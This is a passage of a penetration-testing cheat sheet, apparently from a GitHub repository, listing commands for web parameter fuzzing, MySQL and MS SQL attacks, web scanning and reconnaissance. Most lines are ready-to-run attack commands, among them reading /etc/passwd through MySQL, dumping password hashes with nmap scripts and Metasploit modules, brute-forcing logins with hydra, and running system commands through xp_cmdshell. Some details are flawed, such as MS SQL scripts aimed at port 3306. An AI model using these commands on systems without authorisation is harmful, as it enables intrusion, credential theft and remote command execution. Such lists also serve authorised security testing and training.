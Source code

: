  - `ffuf -u "https://pentest-experts.com/index.php?FUZZ=val" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -H 'Host: FUZZ.pentest-experts.com' -v`  
   Fuzzing of GET / POST parameters or values.  
   Use `-X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded'` for POST parameter or value fuzzing.  
 - **Use browser-plugins like the `UA spoofer` to fake a older Browser like IE and test if a different version of the website is served!!! Maybe there is a fallback to an oder an vuln. version of the site...**
 
MySQL

 - `mysql -h 1.2.3.4`
 - `mysql -h 1.2.3.4 -u user`
 - `mysql -h 1.2.3.4 -u user -p`
 - **msf5>** `use auxiliary/scanner/mysql/mysql_writeable_dirs`
 - **msf5>** `use auxiliary/scanner/mysql/mysql_hashdump`
 - **msf5>** `use auxiliary/scanner/mysql/mysql_login`
 - **mysql [dvwa]>** `select load_file('/etc/passwd')`
 - `nmap -p 3306 1.2.3.4 --script mysql-empty-password`
 - `nmap -p 3306 1.2.3.4 --script mysql-info`
 - `nmap -p 3306 1.2.3.4 --script mysql-audit --script-args "mysqluser=root,mysqlpass=password1"`
 - `nmap -p 3306 1.2.3.4 --script mysql-variables --script-args "mysql-audit.username=root, mysql-audit.password=password1, mysql-audit.filename=/usr/share/nmap/nselib/data/mysql-cis.audit"`
 - `nmap -p 3306 1.2.3.4 --script mysql-dump-hashes --script-args "username=root, password=password1"`
 - `hydra -L users.txt -P rockyou.txt 1.2.3.4 mysql`

MS SQL

 - `nmap -p 3306 1.2.3.4 --script ms-sql-info`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-empty-password`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-ntlm-info --script-args "mssql.instance-port=1433"`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-ntlm-info --script-args "mssql.instance-port=1433"`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-dump-hashes --script-args "mssql.username=admin, mssql.password=password1"`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-xp-cmdshell --script-args "mssql.username=admin, mssql.password=password1, ms-sql-xp-cmdshell.cmd='ipconfig /all'"`
 - **msf5>** `use auxiliary/scanner/mssql/mssql_login`
 - **msf5>** `use auxiliary/scanner/mssql/mssql_hashdump`
 - **msf5>** `use auxiliary/admin/mssql/mssql_exec`
 - **msf5>** `use auxiliary/admin/mssql/mssql_enum`
 - **msf5>** `use auxiliary/admin/mssql/mssql_enum_sql_logins`
 - **msf5>** `use auxiliary/admin/mssql/mssql_enum_domain_accounts`

#### Webserver security scanning

 - `BurpSuite Proxy`
 - `OWASP ZAP Proxy`
 - `nikto -h https://pentest-experts.com -o report.html -Format htm`


## Automate passive and active reconissance

 - `amass enum -d pentest-experts.com -passive -src -ip -dir ./outputfolder/`
 - `amass intel -whois -d pentest-experts.com -active -src -ip -dir ./outputfolder/`
 - `wap.py https://pentest-experts.com common.txt dns.txt`  
 see: https://github.com/mark-b1980/WebsiteAutoRecon
